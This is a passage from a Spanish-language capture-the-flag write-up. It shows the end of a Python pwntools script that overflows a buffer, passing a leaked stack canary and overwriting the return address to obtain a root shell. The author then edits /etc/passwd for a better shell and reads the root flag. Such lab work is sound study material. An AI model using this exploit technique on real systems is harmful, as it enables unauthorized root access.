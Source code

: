 ```python
#    address_breakpoint = gdb_process.before.decode('utf-8')
#    lines = address_breakpoint.splitlines()
#    memory_addresses_breakpoint = [line.split()[0] for line in lines if '<+' in line]
#    if len(memory_addresses_breakpoint) >= 20:
#       memory_address_bp = memory_addresses_breakpoint[19]
#       gdb_process.sendline(" ")
#       gdb_process.expect("(gdb)")
#       gdb_process.sendline(f"break *{memory_address_bp}")
#       gdb_process.expect("(gdb)")
#       gdb_process.sendline("continue")
#    else:
#       print("No hay suficientes direcciones de memoria en la salida")

    # construccion del payload
    buffer_size = 72 # desplazamiento hasta el canary
    buffer_fil = b'S' *buffer_size
    padding = b'A' *8 # relleno para alinear la pila

    payload = flat(
    buffer_fil,
    output_canary_le,
    padding,
    address_factor1_le
    )
    # Enviar el payload
    gdb_process.expect("Introduce tu nombre: ")
    gdb_process.sendline(payload)
    gdb_process.interact()
    gdb_process.send(b"quit")
    gdb_process.close()

if __name__ == '__main__':
    atack()
```
desarrollado el exploit, procedemos a testearlo

![image](https://github.com/user-attachments/assets/171ec9c2-a5a4-4523-83a3-9a73bdc3b753)

como se observa, el exploit puede llegar a fallar y esto sucede porque se trabaja con direccion de memoria aleatorias que podrian hacer entrar en conflicto la recepcion o envio del payload, pero si intentamos nuevamente vemos que se logro ejecutar de forma exitosa obteniendo una terminal como root, pero esta terminal resulta ser muy incomoda por lo que editare el archivo "/etc/passwd"

![image](https://github.com/user-attachments/assets/5f2a54b3-8afa-4e70-96e4-0b1b4f14f407)


![image](https://github.com/user-attachments/assets/d2b9e5b7-40ed-411d-b2e5-41d1b72b0b6e)

![image](https://github.com/user-attachments/assets/ccf573f1-ab9b-43a3-8b3d-f4cead486845)

obtengo una mejor terminal como root y leo su flag

```bash
cat /root/root.txt
592d328555681ed9a01b836acd8fea34
```


